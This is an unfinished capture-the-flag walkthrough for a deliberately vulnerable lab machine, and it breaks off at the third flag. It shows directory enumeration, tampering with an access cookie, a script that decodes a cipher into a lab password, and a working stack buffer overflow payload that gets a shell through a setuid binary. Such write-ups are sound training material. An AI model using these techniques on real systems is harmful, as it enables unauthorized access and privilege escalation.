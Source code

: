 WIP
#### Flag 1
- I stared with a basic nmap scan on the top 1000 ports `nmap -sV IP -v`
- That revealed http and ssh, so I went to the website
- There was nothing interesting in the source code or pages I could find from source alone, so I used gobuster to enumerate
```
└─$ gobuster dir -u 10.10.51.244 -w /usr/share/dirb/wordlists/common.txt
```
- That brought me to the page `/robots.txt`
```
User-agent: *
Disallow: /zYdHuAKjP
```
- Navigating to the path, the page had an `access denied` message
- This usually indicates something to do with user agents or cookies, so I checked cookies first with inspect
- There was an `access` token with the value `denied` so I just changed it to `granted` and reloaded the page
- The access page had this string
```
hEzAdCfHzA::hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN
```
> Hint: You're going to want to write a Python script for this. 'zA' = 'a'
- From this I assumed that every two letters map to one letter, and some type of substitution cipher was at play
- If every two letters maps to one letter, then the username has to be 5 characters long
```
hE zA dC fH zA :: hE zA dC fH zA hA iJ zA eI aD jB cB hH gA zA fH fN
```
- In the `/operatives.php` page on the site, there is a list of usernames to test with this
- `magna` is the only username that matches the `zA` rule with an a for the second and last letter
- From this we know
```
hE = m
zA = a
dC = g
fH = n
zA = a
```
- Reconstructing the password so far `magna__a______an_`
- After thinking on it, I realized that the resulting letter is the index of the sum of the indexes of the two letters
- ex// f = 6 and h = 8 becomes n = 14
```python
# yes you have to write it as a list don't use list(), I used code to do that cus I'm lazy
alphabet = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z']
cipher = ['hE', 'zA', 'dC', 'fH', 'zA', 'hA', 'iJ', 'zA', 'eI', 'aD', 'jB', 'cB', 'hH', 'gA', 'zA', 'fH', 'fN']

passwd = []

for letter in cipher:
    l1 = int(alphabet.index(letter[0].lower())) + 1
    l2 = int(alphabet.index(letter[1].lower())) + 1

    s = l1 + l2

    if s == 27:
        passwd.append('a')
    else:
        ch = alphabet[s - 1]
        passwd.append(ch)

print(''.join(passwd))
```
- Result: `magnaisanelephant`
```
magna@anonymous-playground:~$ ls
flag.txt  hacktheworld  note_from_spooky.txt
magna@anonymous-playground:~$ cat flag.txt
```
- First flag down two to go
#### Flag 2
- `sudo -l` showed that magna can't run sudo at all, so we have to escalate privs some other way
- There were two notable files in magna's home directory
```
-rwsr-xr-x 1 root   root   8528 Jul 10  2020 hacktheworld
-rw-r--r-- 1 spooky spooky  324 Jul  6  2020 note_from_spooky.txt
```
- `hacktheworld` has the suid bit set, so I focused on that file
```
magna@anonymous-playground:~$ strings hacktheworld 
/lib64/ld-linux-x86-64.so.2
)Kk1
libc.so.6
setuid
...
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
/bin/sh
Who do you want to hack?
...
[ ETC ]
```
- There were no explicit file calls to manipulate here, so I assumed it required actual reverse engineering 
- I _really_ didn't want to do that, but considering the note from spooky:
```
Hey Magna,

Check out this binary I made!  I've been practicing my skills in C so that I can get better at Reverse
Engineering and Malware Development.  I think this is a really good start.  See if you can break it!

P.S. I've had the admins install radare2 and gdb so you can debug and reverse it right here!

Best,
Spooky
```
- I don't think I have a choice </3
- Since `radare2` is installed, I used that to analyze the code
- The `main` function prints the strings, then completes the setuid action (setting it to 1337 for spooky) before running /bin/sh
- From this we can deduce it is some type of buffer overflow (probably stack based)
- There are definitely more technical ways to do this to find the buffer size, but I decided to use trial and error
```
magna@anonymous-playground:~$ for i in {1..80}; do echo $i; python -c "print('A' * $i)" | ./hacktheworld; done
1
Who do you want to hack? 2
Who do you want to hack? 3
Who do you want to hack? 4
...
Who do you want to hack? 72
Segmentation fault (core dumped)
```
- This verifies that buffer overflow si the method to go through with
- Since this is a binary file I used readelf to find where the bash fuction is executed (you can also use radare2 -> s bash)
```
magna@anonymous-playground:~$ readelf -a hacktheworld | grep bash
    50: 0000000000400657   129 FUNC    GLOBAL DEFAULT   13 call_bash
```
- Using this address we can create the python payload
```python
#!/usr/bin/env python
from struct import *

b = ""
b += "A" * 64                      
b += pack("<Q", 0x0000000000400657)   
print(b)
```
- Then run it with `(python pload.py; cat) | ./hacktheworld` - note python instead of python3 to avoid byte errors
```
magna@anonymous-playground:~$ (python pload.py; cat) | ./hacktheworld
Who do you want to hack? 
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
whoami
spooky
python -c 'import pty;pty.spawn("/bin/bash")'                
spooky@anonymous-playground:~$ cd ../spooky
spooky@anonymous-playground:/home/spooky$ cat flag.txt
```
- Tip - if your shell gets frozen bc of questionable laptop specs (like mine) CTRL+Z to suspend the python script and rerun it
#### Flag 3
- I don't know spooky's password, so I start by checking crontab
 
